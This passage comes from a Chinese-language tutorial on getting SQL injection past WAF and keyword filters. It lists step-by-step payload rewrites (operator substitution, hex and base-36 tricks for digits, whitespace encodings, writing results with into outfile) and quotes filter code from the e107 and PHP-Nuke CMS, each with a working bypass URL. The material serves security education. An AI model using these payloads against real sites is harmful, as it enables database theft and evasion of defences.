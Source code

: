 ```bash
and => && 　　or => ||

union select user, password from users　　 =>　　1 || (select user from users where user_id = 1) = 'admin

1 || (select user from users where user_id = 1) = 'admin'　　=>　　1 || (select user from users limit 1) = 'admin

1 || (select user from users limit 1) = 'admin' =>　　1 || (select user from users group by user_id having user_id = 1) = 'admin'
1 || (select user from users group by user_id having user_id = 1) = 'admin' =>　1 || (select substr(group_concat(user_id),1,1) user from users )=1
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =>	1 || 1 = 1 into outfile 'result.txt'　或者  1 || substr(user,1,1) = 'a'　
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=>　　1 || user_id is not null 或者 1 || substr(user,1,1) = 0x61
　　　或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
1 || substr(user,1,1) = unhex(61)　　=>	1 || substr(user,1,1) = lower(conv(11,10,36))
1 || substr(user,1,1) = lower(conv(11,10,36)) =>　　1 || lpad(user,7,1)
1 || lpad(user,7,1)　　=>　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered
```
从上面给出的示例来看，没有绝对的过滤，即便平时构建一个正常SQL语句的全部关键字都被过滤了，我们也还是能找到Bypass的方法。普世的阳光和真理尚且照不到每一个角落，人为构建出来的一个工具WAF就更加不可能尽善尽美了。我们可以相信WAF能为我们抵挡很多攻击，但是绝不能百分之一百的依赖它，就算它有着世上最为健全的规则，它本身也是会存在缺陷的。<br />从前面到现在，基本上每条注入语句中都有数字，如果某查询的数据类型为字符串、或者做了严格限制数字要被和谐掉，这就有点棘手了，不过办法总是有的：<br />![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627358949959-4cbf3867-913d-4001-a5cc-c8c18d30a767.png#clientId=ufe573d71-bd39-4&from=paste&id=u5372cd39&originHeight=451&originWidth=986&originalType=url&ratio=1&status=done&style=none&taskId=u5fd73f97-c2e1-4aa3-8958-43d16c0bd14)<br />![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627358971787-04fcfdac-c29c-4a39-b08a-ec112c1758f4.png#clientId=ufe573d71-bd39-4&from=paste&id=ufb30a04e&originHeight=520&originWidth=1009&originalType=url&ratio=1&status=done&style=none&taskId=u31df526d-ccc1-4de0-a4c6-116b6cc3d89)<br />上面两张图，第一张是不能使用数字时通过使用数学函数得到某个数字的值，第二章则是这些数字对应的36进制的值，因此有时候一个很简单的表达式可能会很复杂或者非常长，其实际就是计算mod(a,b)：
<a name="tskSw"></a>
#### 0x4 延伸及测试向量示例
a) CMS绕过实例<br />b) WAF绕过示例<br />c) SQLi Filter Evasion Cheat sheet<br />d) 测试向量<br /> 

1. e107 CMS

```
$inArray = array("'", ";", "/**/", "/UNION/", "/SELECT/", "AS "); 
if (strpos($_SERVER['PHP_SELF'], "trackback") === false) { 
foreach($inArray as $res) { 
if(stristr($_SERVER['QUERY_STRING'], $res)) { 
die("Access denied."); 
}}}

Bypass: vuln.php/trackback?inject=UNI%6fN SELECT
```

\2. PHP-Nuke CMS

```
if(isset($_SERVER['QUERY_STRING']) 
&& (!stripos($_SERVER['QUERY_STRING'], "ad_click"))) { 
$queryString = $_SERVER['QUERY_STRING']; 
if ( stripos($queryString, '%20union%20') 
OR stripos($queryString, '/*') 
OR stripos($queryString, '*/union/*') 
OR stripos($queryString, '+union+') 
OR stripos($queryString, 'concat')) { die('Illegal Operation'); }

Bypass: vuln.php?inject=%a0UNI%6fN(SELECT'ad_click'
```
